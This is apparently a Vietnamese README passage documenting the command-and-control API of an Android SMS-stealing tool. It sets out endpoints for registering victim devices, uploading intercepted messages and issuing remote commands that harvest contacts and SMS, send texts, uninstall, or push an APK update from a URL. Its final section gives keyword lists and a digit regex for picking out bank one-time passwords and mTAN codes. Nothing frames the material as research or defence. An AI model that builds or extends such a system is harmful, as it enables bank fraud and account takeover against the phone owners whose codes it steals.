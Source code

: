 ### 1. Client API

| Endpoint | Method | Mô tả | Request Body |
|----------|--------|-------|--------------|
| `/register` | POST | Đăng ký thiết bị | `{device_id, device_info, phone_number, operator}` |
| `/intercepted_sms` | POST | Gửi SMS bị chặn | `{device_id, sender, message, timestamp}` |
| `/ping` | POST | Ping và nhận lệnh | `{device_id}` |
| `/command_executed` | POST | Báo cáo thực thi lệnh | `{device_id, command_id, result}` |

### 2. Admin API

| Endpoint | Method | Mô tả | Query Parameters |
|----------|--------|-------|------------------|
| `/admin` | GET | Giao diện quản trị web | - |
| `/admin/devices` | GET | Lấy danh sách thiết bị | - |
| `/admin/intercepted_sms` | GET | Lấy SMS đã chặn | `device_id` (optional) |
| `/admin/pending_commands` | GET | Lệnh đang chờ | - |
| `/admin/command_history` | GET | Lịch sử lệnh | - |
| `/admin/add_command` | POST | Thêm lệnh mới | Body: `{device_id, command_type, command_data}` |

## Các loại lệnh hỗ trợ

| Loại lệnh | Mô tả | Dữ liệu mẫu |
|-----------|-------|-------------|
| `get_contacts` | Lấy danh bạ | `{}` |
| `get_sms` | Lấy tin nhắn | `{"limit": 50}` |
| `send_sms` | Gửi tin nhắn | `{"to": "+84123456789", "message": "Test"}` |
| `update` | Cập nhật ứng dụng | `{"url": "http://example.com/update.apk"}` |
| `uninstall` | Gỡ cài đặt | `{}` |

## Tính năng phát hiện mTAN

Server tự động phát hiện SMS có thể chứa mã xác thực dựa trên:

### Từ khóa
- Tiếng Việt: mã xác thực, mã otp, mã giao dịch, mã bảo mật, chuyển khoản
- Tiếng Anh: verification code, security code, authentication code, mtan, one-time password

### Mẫu số
- Chuỗi 4-8 chữ số liên tiếp (regex: `\b\d{4,8}\b`)
